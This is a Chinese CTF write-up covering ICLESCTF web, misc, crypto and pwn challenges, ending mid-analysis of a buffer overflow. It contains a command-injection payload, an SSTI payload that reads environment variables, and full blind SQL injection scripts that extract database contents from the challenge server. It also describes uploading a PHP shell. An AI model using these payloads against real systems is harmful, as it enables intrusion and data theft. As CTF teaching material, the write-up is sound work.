# ICLESCTF-Writeup-先知社区

> **来源**: https://xz.aliyun.com/news/17190  
> **文章ID**: 17190

---

# web

## ping\_server

题目是常见的命令执行绕过，感觉waf应该是把常见的命令分隔符替换为空：

所以这里直接用一下payload即可：

```
$(env)
```



## 

## template\_injection

题目考点是ssti,经过题目的提示，猜测传入的参数是name。



成功测试出为ssti，经过fuzz，发现主要是过滤了“()”这个导致没法正常使用ssti的payload，只能尝试其他的，经过提示，我们可以使用lipsum直接去读环境变量。

payload:

```
{{ lipsum.__globals__.os.environ }}
```



## ezsql

这题考手注sql，然后由于数据库是sqltile,注入的时候只需要注意到这一点。我这里附上脚本

​

```
import requests
import string

url = 'http://ctf.2v8.cn:20730/'
debug = False  # 开启调试模式显示请求详情


def check_condition(payload):
    data = {'username': payload, 'password': ''}
    try:
        response = requests.post(url, data=data, timeout=5)
        if debug:
            print(f"Payload: {payload}")
            print(f"Status: {response.status_code}")
            print(f"Response: {response.text[:150]}...")
        return 'Welcome admin!' in response.text
    except Exception as e:
        print(f"Error: {e}")
        return False


# ==================== 爆破表名 ====================
def get_table_count():
    print("
[+] 爆破表数量...")
    for count in range(1, 10):
        payload = f"'/**/OR/**/(SELECT/**/COUNT(*)/**/FROM/**/sqlite_master/**/WHERE/**/type='table'/**/AND/**/name/**/NOT/**/LIKE/**/'sqlite_%')={count}/**/--+"
        if check_condition(payload):
            print(f"发现 {count} 个用户表")
            return count
    return 0


def extract_table_name(offset=0):
    print(f"
[+] 爆破第 {offset + 1} 个表名...")

    # 确定表名长度
    for length in range(1, 50):
        payload = f"'/**/OR/**/(SELECT/**/LENGTH(name)/**/FROM/**/sqlite_master/**/WHERE/**/type='table'/**/AND/**/name/**/NOT/**/LIKE/**/'sqlite_%'/**/LIMIT/**/1/**/OFFSET/**/{offset})={length}/**/--+"
        if check_condition(payload):
            print(f"表名长度: {length}")
            break
    else:
        print("无法确定表名长度")
        return None

    # 逐字符爆破
    table_name = []
    printable = string.ascii_lowercase + string.digits + '_'
    for pos in range(1, length + 1):
        char_found = False
        for char in printable:
            payload = f"'/**/OR/**/(LOWER(SUBSTR((SELECT/**/name/**/FROM/**/sqlite_master/**/WHERE/**/type='table'/**/AND/**/name/**/NOT/**/LIKE/**/'sqlite_%'/**/LIMIT/**/1/**/OFFSET/**/{offset}),{pos},1)))=/**/'{char}'/**/--+"
            if check_condition(payload):
                table_name.append(char)
                char_found = True
                print(f"位置 {pos}: {char}")
                break
        if not char_found:
            table_name.append('?')
            print(f"位置 {pos}: 未知字符")
    return ''.join(table_name).capitalize()


# ==================== 爆破列名 ====================
def extract_columns(table_name):
    print(f"
[+] 爆破表 {table_name} 的列名...")

    # 获取建表语句长度
    for length in range(10, 2000):
        payload = f"'/**/OR/**/(SELECT/**/LENGTH(sql)/**/FROM/**/sqlite_master/**/WHERE/**/name='{table_name.lower()}')={length}/**/--+"
        if check_condition(payload):
            print(f"建表语句长度: {length}")
            break

    # 爆破建表语句
    create_sql = []
    for pos in range(1, length + 1):
        low, high = 32, 126
        char = None
        while low <= high:
            mid = (low + high) // 2
            payload = f"'/**/OR/**/(ASCII(SUBSTR((SELECT/**/sql/**/FROM/**/sqlite_master/**/WHERE/**/name='{table_name.lower()}'),{pos},1)))/**/>=/**/{mid}/**/--+"
            if check_condition(payload):
                char = mid
                low = mid + 1
            else:
                high = mid - 1
        if char:
            create_sql.append(chr(char))
            print(f"进度: {pos}/{length} - {chr(char)}", end='\r')
    create_statement = ''.join(create_sql)

    # 从建表语句中提取列名
    columns = []
    if '(' in create_statement:
        cols_part = create_statement.split('(')[1].split(')')[0]
        for col_def in cols_part.split(','):
            col_name = col_def.strip().split()[0].strip('"[]\'')
            columns.append(col_name)
    return columns


# ==================== 主程序 ====================
if __name__ == "__main__":
    table_count = get_table_count()
    if table_count == 0:
        print("[-] 未找到用户表")
        exit()

    for i in range(table_count):
        table_name = extract_table_name(offset=i)
        if table_name:
            print(f"
[+] 发现表: {table_name}")
            columns = extract_columns(table_name)
            print(f"
[+] 列名列表: {columns}")

```

上述代码，能够发现表名  


发现Secrets表

然后爆flag:

```
import requests
import string

url = 'http://ctf.2v8.cn:20891/'
current_table = 'Secrets'
timeout = 8  # 增加超时时间


def check_condition(payload):
    data = {'username': payload, 'password': ''}
    try:
        response = requests.post(url, data=data, timeout=timeout)
        return 'Welcome admin!' in response.text
    except Exception as e:
        print(f"请求失败: {e}")
        return False


def extract_secrets():
    # 直接爆破flag字段（常见CTF字段名）
    print("
[+] 爆破flag字段内容...")

    # 爆破flag长度
    for length in range(10, 50):
        payload = f"'/**/OR/**/(SELECT/**/LENGTH(flag)/**/FROM/**/{current_table}/**/LIMIT/**/1)=/**/{length}/**/--"
        if check_condition(payload):
            print(f"Flag长度: {length}")
            break

    # 精确爆破flag内容
    flag = []
    for pos in range(1, length + 1):
        # 优先检查flag格式字符
        if pos == 1:
            candidates = ['f', 'F']
        elif pos == 2:
            candidates = ['l', 'L']
        elif pos == 3:
            candidates = ['a', 'A']
        elif pos == 4:
            candidates = ['g', 'G']
        elif pos == 5:
            candidates = ['{']
        else:
            candidates = string.printable

        for char in candidates:
            payload = f"'/**/OR/**/(SUBSTR((SELECT/**/flag/**/FROM/**/{current_table}/**/LIMIT/**/1),{pos},1)/**/=/**/'{char}')/**/--"
            if check_condition(payload):
                flag.append(char)
                print(f"位置 {pos}: {char}")
                break
        else:
            flag.append('?')
            print(f"位置 {pos}: 未识别字符")

    return ''.join(flag)


if __name__ == "__main__":
    print(f"[*] 开始爆破 {current_table} 表数据")

    # 验证flag字段存在性
    if check_condition(
            f"'/**/OR/**/(SELECT/**/flag/**/FROM/**/{current_table}/**/LIMIT/**/1)/**/IS/**/NOT/**/NULL/**/--"):
        print("[+] 检测到flag字段存在")
        result = extract_secrets()
        print("
爆破结果:")
        print(f"Flag: {result}")
    else:
        print("[-] 未找到flag字段，尝试其他常见字段...")

```



## upload-difficult

访问题目，得到代码：

```
<?php
  error_reporting(0);
highlight_file(__FILE__);
require_once('classes.php');

if (isset($_FILES['file'])) {
  $upload_dir = '/var/www/html/uploads/';
  if (!is_dir($upload_dir)) {
    mkdir($upload_dir);
  }

  $target_file = $upload_dir . basename($_FILES['file']['name']);
  if (move_uploaded_file($_FILES['file']['tmp_name'], $target_file)) {
    echo "File uploaded successfully!<br>";

    try {
      $phar = new Phar($target_file);
      $metadata = $phar->getMetadata();
      echo "File metadata analyzed.<br>";
    } catch (Exception $e) {
      echo "Error reading file metadata";
    }
  } else {
    echo "File upload failed";
  }
}
```

这里分析我们就可以看见，题目并未对上传文件的类型进行常见的waf过滤。估计出题人想考phar文件上传，但是并没处理好逻辑，导致的非预期。所以这里直接传php拿shell即可。



# MISC

## Interesting\_web

访问地址以后，直接看源码：



​

经过测试，在cc.gif中，分帧查看图片，发现flag


```
flag{add_black_1onion}
```

## Hidden\_Evidence

访问题目地址  


将红框的这个图片进行保存。再用txt打开：



base64解码，套上flag{}即可



```
flag{secret_secret}
```

## 网络迷踪

常见的图寻题，直接用google搜图即可：

根据这篇文章：<https://toxaby.livejournal.com/596278.html>


和图片大概位置差不多，然后根据文章内容。

直接搜这个地址：  
  


得到具体地址。只是flag需要在珠江西路前面加一个珠江新城

```
flag{广东省-广州市-天河区-珠江新城珠江西路-5号}
```

# Crypto

## xor\_index\_cipher

分析代码

```
from flask import Flask, render_template_string
import os

app = Flask(__name__)

def encrypt(plaintext: str, key: str) -> str:
    ciphertext = []
    for i, char in enumerate(plaintext):
        p = ord(char)
        k = ord(key[i % len(key)])
        # XOR 后加上索引，取模 256
        c = ((p ^ k) + i) % 256
        ciphertext.append(c)
    return ''.join("{:02x}".format(x) for x in ciphertext)

@app.route("/")
def index():
    # FLAG 通过环境变量注入，默认为 CTF{dummy_flag}
    flag = os.getenv("FLAG", "ICLESCTF{my_flag}")
    key = "s3cr3t"
    ciphertext = encrypt(flag, key)
    html = f"""
    <html>
      <head>
        <meta charset="UTF-8">
        <title>Crypto Challenge: XOR Shift Cipher</title>
      </head>
      <body>
        <h1>Crypto Challenge: XOR Shift Cipher</h1>
        <p><strong>Encrypted flag:</strong> {ciphertext}</p>
        <p><strong>Encryption Key:</strong> {key}</p>
        <p><strong>Algorithm Description:</strong>
           请逆向此算法，恢复原始 flag！
        </p>
      </body>
    </html>
    """
    return html

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)
```

分析代码，我们能知道解迷还原的过程：

```
将每两个字符转换为一个字节的数值。
对每个字节，根据其索引i，计算temp = (c -i) mod256。
取出对应的密钥字符的ASCII码k。
将temp与k异或，得到明文字符的ASCII码。
将ASCII码转为字符，拼接得到明文。
```

写出解密代码：

​

```
ciphertext_hex = "156004184c494909591f1552522b101f1121701a6425177063236b613a612e2a7262256839257a683232"
bytes_list = bytes.fromhex(ciphertext_hex)

key = "s3cr3t"
key_ascii = [ord(c) for c in key]

plaintext = []
for i in range(len(bytes_list)):
    c = bytes_list[i]
    step1 = (c - i) % 256
    k = key_ascii[i % len(key_ascii)]
    p = step1 ^ k
    plaintext.append(p)

flag = bytes(plaintext).decode('utf-8')
print(flag)
```



## RSA

分析代码：

```
from flask import Flask, jsonify
from Crypto.Util.number import getPrime, bytes_to_long, inverse, isPrime
import os

app = Flask(__name__)
FLAG = os.environ.get('FLAG', 'flag{get_flag_here}')

def next_prime(n):
    n += 1 + (n % 2)  # 保证奇数
    while not isPrime(n):
        n += 2
    return n

# 初始化时生成脆弱密钥对
bits = 512
p = getPrime(bits)
q = next_prime(p)
n = p * q
e = 0x10001
c = pow(bytes_to_long(FLAG.encode()), e, n)

@app.route('/')
def get_data():
    return jsonify({
        'n': hex(n)[2:],
        'e': hex(e)[2:],
        'ciphertext': hex(c)[2:]
    })

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```

```
分解模数n：使用费马分解法找到p和q，确保q是p的下一个质数。
计算私钥：通过φ(n) = (p-1)(q-1)和模反元素计算私钥d。
解密密文：使用私钥d对密文c进行解密，将结果转换为字符串得到FLAG。
```

给出解密代码：

```
from Crypto.Util.number import isPrime, inverse, long_to_bytes
import math

n_hex = "53cf2a1c0597fca5e2c918553a71aead313ed27190bcc0e9589ee077218ac88c2f402b0bc5e9e0f4c313404428c08ff79541dbc5f517c9761b37b0c6eb4710773742b8ce16b62de8e57d987f64397a142c1567b384eeccd1ce987d8c733c15bc6a440cb24636029f6f93f8ede92b1847ab8af1e948b6c2b5380fb95b9d8620fd"
e_hex = "10001"
c_hex = "1ad11c848296ae07abe25a5188739e5fc478797d4ab8c9b03366ae911b92cf4ea1db6c31a12d7cd34f82d33748b3d28e2462843ff4c7d718a19363d3b2c01e947b07e0daba1b2d64d02131a592f447070a510b81c3e1805c36b7b103cedd14fc9f9a9952aa1c2fd7a9e41bd196ceff9ced69f38533d631529e866f2183783f51"

n = int(n_hex, 16)
e = int(e_hex, 16)
c = int(c_hex, 16)

def next_prime(n):
    n += 1 + (n % 2)  # 确保下一步是奇数
    while not isPrime(n):
        n += 2
    return n

sqrt_n = math.isqrt(n)
# 从sqrt_n开始寻找p，确保初始为奇数
p = sqrt_n if sqrt_n % 2 != 0 else sqrt_n - 1
found = False

while p > 2:
    if n % p == 0:
        q = n // p
        if isPrime(p) and isPrime(q):
            if next_prime(p) == q:
                found = True
                break
    p -= 2

if not found:
    # 如果未找到，尝试向上搜索
    p = sqrt_n if sqrt_n % 2 != 0 else sqrt_n + 1
    while True:
        if n % p == 0:
            q = n // p
            if isPrime(p) and isPrime(q):
                if next_prime(p) == q:
                    found = True
                    break
        p += 2
        if p > sqrt_n * 2:  # 防止无限循环
            break

if found:
    print(f"Found p = {p}
q = {q}")
    phi = (p - 1) * (q - 1)
    d = inverse(e, phi)
    m = pow(c, d, n)
    flag = long_to_bytes(m).decode()
    print("Flag:", flag)
else:
    print("Failed to factorize n")

```



成功得到flag

​

## 破解数据流

```
import random
from Crypto.Util.number import getPrime, bytes_to_long, long_to_bytes
import os
import socket
import threading

FLAG = os.getenv('FLAG', 'flag{redacted}')

class LCGStreamCipher:
    def __init__(self, m=None, a=None, c=None, s=None):
        if m is None:
            self.m = getPrime(32)
            self.a = random.randint(1, self.m-1)
            self.c = random.randint(0, self.m-1)
            self.initial_s = random.randint(0, self.m-1)
        else:
            self.m = m
            self.a = a
            self.c = c
            self.initial_s = s
        self.reset()

    def reset(self):
        self.s = self.initial_s

    def next_key_bytes(self):
        key = long_to_bytes(self.s, 4)
        self.s = (self.a * self.s + self.c) % self.m
        return key

    def encrypt(self, plaintext):
        ciphertext = b""
        self.reset()
        for i in range(0, len(plaintext), 4):
            chunk = plaintext[i:i+4].ljust(4, b'\x00')[:4]
            key = self.next_key_bytes()
            encrypted_chunk = bytes([c ^ k for c, k in zip(chunk, key)])
            ciphertext += encrypted_chunk
        return ciphertext

# 预生成参数并加密flag
cipher = LCGStreamCipher()
flag_enc = cipher.encrypt(FLAG.encode())

def handle_client(conn):
    cipher_local = LCGStreamCipher(cipher.m, cipher.a, cipher.c, cipher.initial_s)
    conn.sendall(b"Welcome to the LCG Stream Cipher encryption service!
")
    conn.sendall(f"Flag ciphertext (hex): {flag_enc.hex()}
".encode())
    while True:
        conn.sendall(b"Enter plaintext (hex): ")
        try:
            data = conn.recv(1024).strip()
            if not data:
                break
            plaintext = bytes.fromhex(data.decode())
            ciphertext = cipher_local.encrypt(plaintext)
            conn.sendall(f"Ciphertext (hex): {ciphertext.hex()}
".encode())
        except:
            conn.sendall(b"Invalid input
")
            break
    conn.close()

def main():
    host = '0.0.0.0'
    port = 12345
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind((host, port))
    s.listen(5)
    print(f"Listening on {host}:{port}")
    while True:
        conn, addr = s.accept()
        threading.Thread(target=handle_client, args=(conn,)).start()

if __name__ == "__main__":
    main()

```

分析代码，得出解密步骤

```
1.获取FLAG密文和密钥流:连接到服务，获取FLAG的密文（十六进制）。发送全零的明文（如00000000多次），获取对应的密文，即密钥流的十六进制表示
2.提取LCG状态值（s0, s1, s2, s3）将密钥流密文按4字节分块，转换为大端整数，得到连续的s0, s1, s2, s3等值。
3.计算模数m,利用相邻状态值构造方程
4.求解乘数a和增量c
5.生成密钥流并解密FLAG使用恢复的m, a, c, s0初始化LCG，生成与FLAG密文等长的密钥流。将密文与密钥流逐字节异或，得到原始FLAG。
```

给出解密代码：

```
import math
import socket
from Crypto.Util.number import isPrime

def bytes_to_int(b):
    return int.from_bytes(b, byteorder='big')

def extract_s_values(ciphertext_hex):
    ciphertext = bytes.fromhex(ciphertext_hex)
    s_values = []
    for i in range(0, len(ciphertext), 4):
        chunk = ciphertext[i:i+4]
        if len(chunk) < 4:
            chunk = chunk.ljust(4, b'\x00')
        s = bytes_to_int(chunk)
        s_values.append(s)
    return s_values

def compute_m(s):
    t0 = (s[3] - s[2]) * (s[1] - s[0]) - (s[2] - s[1])**2
    t1 = (s[4] - s[3]) * (s[2] - s[1]) - (s[3] - s[2])**2
    m_candidate = math.gcd(t0, t1)
    # 寻找m的质数因子
    for d in range(m_candidate, 1, -1):
        if m_candidate % d == 0 and isPrime(d) and (1 << 31) <= d < (1 << 32):
            return d
    return None

def get_params(s):
    m = compute_m(s)
    if m is None:
        return None, None, None
    delta1 = s[1] - s[0]
    delta2 = s[2] - s[1]
    try:
        a = (delta2 * pow(delta1, -1, m)) % m
    except ValueError:
        return None, None, None
    c = (s[1] - a * s[0]) % m
    return m, a, c

def decrypt_flag(flag_enc_hex, m, a, c, s0):
    flag_enc = bytes.fromhex(flag_enc_hex)
    key_stream = b''
    s = s0
    for _ in range(len(flag_enc) // 4 + 1):
        key_stream += s.to_bytes(4, 'big')
        s = (a * s + c) % m
    plain = bytes([fc ^ kc for fc, kc in zip(flag_enc, key_stream)])
    return plain.decode().strip('\x00')

# 示例使用
host = 'ctf.2v8.cn'
port = 20285  # 修改为题目指定端口

# 步骤1：获取FLAG密文和密钥流
with socket.socket() as s:
    s.connect((host, port))
    data = s.recv(1024).decode()
    flag_hex = data.split("Flag ciphertext (hex): ")[1].split('
')[0]
    # 发送全0明文获取密钥流
    zero_plain = bytes.fromhex('00' * 20).hex()  # 发送20字节全0（5个块）
    s.sendall(zero_plain.encode() + b'
')
    ciphertext_hex = s.recv(1024).decode().split("Ciphertext (hex): ")[1].split('
')[0]

# 步骤2-4：提取s值并计算参数
s_values = extract_s_values(ciphertext_hex)
m, a, c = get_params(s_values)
if m and a and c:
    s0 = s_values[0]
    flag = decrypt_flag(flag_hex, m, a, c, s0)
    print("Decrypted FLAG:", flag)
else:
    print("Failed to recover parameters.")

```



得到解密之后的flag。

​

# PWN

## easy\_pwn\_2

直接用txt打开即可：



得到flag

```
 ICLESCTF{flag_made_by_zhidunwangange_2025_3_1}
```

## calculator

分析附件



看main函数里存在calculate(&argc);  
再看calculate函数  


```
int calculate()
{
    char s[68]; // [esp+0h] [ebp-48h] BYREF

    printf("Enter expression (e.g., 2+3): ");
    gets(s);
    return puts("Result: ...");
}
```

分析可以发现，这里对s并没有长度限制，会造成严重溢出。

又发现一个直接读flag的函数  
